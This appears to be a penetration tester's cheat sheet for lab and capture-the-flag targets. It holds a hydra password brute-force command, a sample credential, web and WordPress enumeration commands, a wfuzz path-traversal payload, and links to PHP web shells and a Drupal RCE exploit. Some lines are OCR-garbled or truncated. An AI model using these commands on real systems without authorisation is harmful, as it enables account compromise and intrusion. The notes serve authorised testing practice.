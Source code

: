### hydra
```
 hydra 192.168.231.110 -l admin -P /usr/share/wordlists/rockyou.txt http-get-form “/vulnerabilities/brute/index.php:username=^USER^&password=^PASS^&Login=Login:Username and/or password incorrect.:H=Cookie:PHPSESSID=3jr86cmf45oen0ggigm630fstu; security=low”
 ```
### nikto 
```
-id admin:PrettyAwesomePassword1234
```
### wordprocess - need to see plugins
```
wpscan --url http://10.10.10.88/webservices/wp -e ap --plugins-detection aggressive

```
## Please the scan for sub directory if seen dir

```
gobuster -u http://10.10.180.150:49663/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -│ seconde -k -l -s "200,204,301,302,307,401,403" -x "txt,html,php,asp,aspx,jsp" -o "/home/kali/tools/enumeration/autorecon/results/10.10.180.150/scans/tcp_49663_h
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 30  -u "http://10.10.217.69:49663" 
gobuster -u http://10.10.10.56/cgi-bin/ -w /usr/share/wordlists/dirb/common.txt -t 30 -x .php,.sh,.html
feroxbuster -u http://10.10.151.178 --wordlist /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt

wpscan --url https://brainfuck.htb --disable-tls-checks --enumerate p --enumerate t --enumerate u 
```

## PHP file upload script - drupal
```
https://vk9-sec.com/drupal-7-x-module-services-remote-code-execution/
```

Web Scanning:
#Web Scanning with extensions

Linux (Example web server might be Apache) gobuster dir -e -u http://10.10.10.10/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,js,txt,jsp,pl -s 200,204,301,302,307,403,401

Windows (Example web server might be IIS)

gobuster dir -e -u http://10.10.10.10/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,js,txt,asp,aspx,jsp,bak -s 200,204,301,302,307,403,401

Linux (Example web server might be Apache)

python3 dirsearch.py -r -u http://10.10.10.131/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -e php,html,js,txt,jsp,pl -t 50

Windows (Example web server might be IIS)

python3 dirsearch.py -r -u http://10.10.10.131/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -e php,html,js,txt,asp,aspx,jsp,bak -t 50

#HTTP gobuster dir -u http://10.10.10.10 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,html,txt -t 69

#HTTPS gobuster dir -k -u https://10.10.10.10/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 69 (in some cases --wildcard will need to be used instead of -k)

#Nikto nikto -h 10.10.10.10 -p 80

#Nikto HTTPS ``nikto -h 10.10.10.10 -p 443```

WFuzz wfuzz -u http://10.10.10.10/hello.php?dir=../../../../../../../../../FUZZ%00 -w /usr/share/wfuzz/wordlist/general/common.txt

Web Shells
https://github.com/Arrexel/phpbash
https://github.com/flozz/p0wny-shell
